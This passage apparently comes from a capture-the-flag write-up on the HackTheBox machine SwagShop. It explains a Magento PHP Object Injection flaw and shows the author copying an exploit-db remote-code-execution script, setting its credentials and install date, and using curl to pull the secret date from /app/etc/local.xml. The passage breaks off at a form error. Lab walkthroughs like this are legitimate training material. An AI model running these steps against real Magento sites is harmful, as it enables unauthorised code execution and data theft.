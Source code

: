 For background on this bug, it's a PHP Object Injection vulnerability,
detailed by one of the researchers who found it
[here](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/).
PHP Object Injection is a class of bugs that falls under deserialization
vulnerabilities. Basically, the server passes a php object into the
page, and when the browser submits back to the server, it sends that
object as a parameter. To prevent evil users from messing with the
object, Magento uses a keyed hash to ensure integrity. However, the key
for the hash is the install data, which can be retrieved from
`/app/etc/local.xml`. This means that once I have that date, I can forge
signed objects and inject my own code, which leads to RCE.

I'll make a copy of the POC from `searchsploit`:



    root@kali# searchsploit -m exploits/php/webapps/37811.py
      Exploit: Magento CE < 1.9.0.1 - (Authenticated) Remote Code Execution
          URL: https://www.exploit-db.com/exploits/37811
         Path: /usr/share/exploitdb/exploits/php/webapps/37811.py
    File Type: Python script, ASCII text executable, with CRLF line terminators

    Copied to: /root/hackthebox/swagstore-10.10.10.140/37811.py



I'll rename to `magento_rce.py`, and open it up and take a look. In the
config section, I'll have to update 3 fields:



    # Config.
    username = 'ypwq'
    password = '123'
    php_function = 'system'  # Note: we can only pass 1 argument to the function
    install_date = 'Wed, 08 May 2019 07:23:09 +0000'  # This needs to be the exact date from /app/etc/local.xml



I got the date from the page as suggested:



    root@kali# curl -s 10.10.10.140/app/etc/local.xml | grep date
                <date><![CDATA[Wed, 08 May 2019 07:23:09 +0000]]></date>



When I run it, I get an error:



    root@kali# python magento_rce.py http://10.10.10.140 "uname -a"
    Traceback (most recent call last):
      File "magento_rce.py", line 56, in <module>
        br['login[password]'] = password
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 2780, in __setitem__
        control = self.find_control(name)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3101, in find_control
        return self._find_control(name, type, kind, id, label, predicate, nr)
      File "/usr/lib/python2.7/dist-packages/mechanize/_form.py", line 3185, in _find_control
        raise ControlNotFoundError("no control matching "+description)
    mechanize._form.ControlNotFoundError: no control matching name 'login[password]'
